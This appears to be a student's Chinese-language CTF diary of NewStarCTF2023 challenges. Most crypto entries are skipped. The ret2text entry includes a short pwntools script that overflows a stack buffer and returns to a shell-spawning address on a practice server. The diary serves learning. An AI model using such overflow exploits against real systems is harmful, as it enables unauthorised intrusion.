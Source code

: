 web题，报错查flag

## 09-26

### lazy_activtiy(NewStarCTF2023)

感觉这200分不太值...

找到flag地址，搜索资源文件，得flag

### brainfuck(NewStarCTF2023)

密码题，略

### Caesar's Secert(NewStarCTF2023)

密码题，略

### Fence(NewStarCTF2023)

密码题，略

### Vigenère(NewStarCTF2023)

密码题，略

### babyxor(NewStarCTF2023)

密码题，略

### ret2text(NewStarCTF2023)

pwn题，但是得记笔记

```python
from pwn import *
context(arch='amd64',log_level = 'debug',os = 'linux')
# p=process('./ret2text')
# p=gdb.debug('./ret2text')
p=remote("node4.buuoj.cn",27475)
add=0x0000000000401212 #/bin/sh所在的地址，注意参数位置
payload=b'a'*(0x20+8)+p64(add)#0x20为数组长度，8为64bit
p.sendafter('Show me your magic',payload)
# re.sendline(b'ls /')
p.interactive()
```

## 09-27

一整天学汇编，没有做题

## 09-28
